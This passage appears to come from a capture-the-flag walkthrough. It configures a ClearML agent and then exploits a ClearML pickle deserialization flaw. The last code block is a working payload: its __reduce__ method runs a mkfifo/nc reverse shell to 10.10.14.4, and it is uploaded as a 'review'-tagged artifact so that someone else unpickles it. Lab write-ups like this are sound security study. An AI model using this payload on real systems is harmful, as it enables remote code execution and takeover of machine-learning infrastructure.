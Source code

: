 ```bash
New configuration stored in /home/raccoon/clearml.conf
ClearML setup completed successfully.
```

As an extra precaution I run the agent init as well.

```bash
clearml-agent init
*paste api keys when prompted*
*press enter on everything else*
```

Then I can finally run the agent daemon with the default queue and start uploading experiments.

```bash
clearml-agent --config-file clearml.conf daemon --queue default
```

The default getting started code should be satisfactory enough to test if I have a connection.

```python
from clearml import Task
task = Task.init(project_name='Black Swan', task_name='hello world')
```

Take my word for it after some troubleshooting it uploaded properly. Be sure all subdomains are within /etc/hosts and that your agent has been initialized with a proper .conf file. 

I then had to dive into [the dense documentation](https://clear.ml/docs/latest/docs) to determine how to upload a pickle artifact as per the CVE suggests this could be vulnerable to. [Under the ClearML SDK-->Task tab](https://clear.ml/docs/latest/docs/clearml_sdk/task_sdk/#logging-artifacts) there is reference to uploading artifacts. You define a task like with the test script then use the upload_artifact method off that task and define the artifact_object to send. In our case it should be a class with the `__reduce__` function and a shell. Lastly I will add the tag review as the chats hint they are coming up to a review and it can't hurt to add it.

The final step is realizing all this research wasn't necessary as the post within the CVE on NIST links to a [much better writeup giving a good shell for the code we need](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/). Together that creates this payload:

```python
from clearml import Task
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.4 7777 >/tmp/f',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```
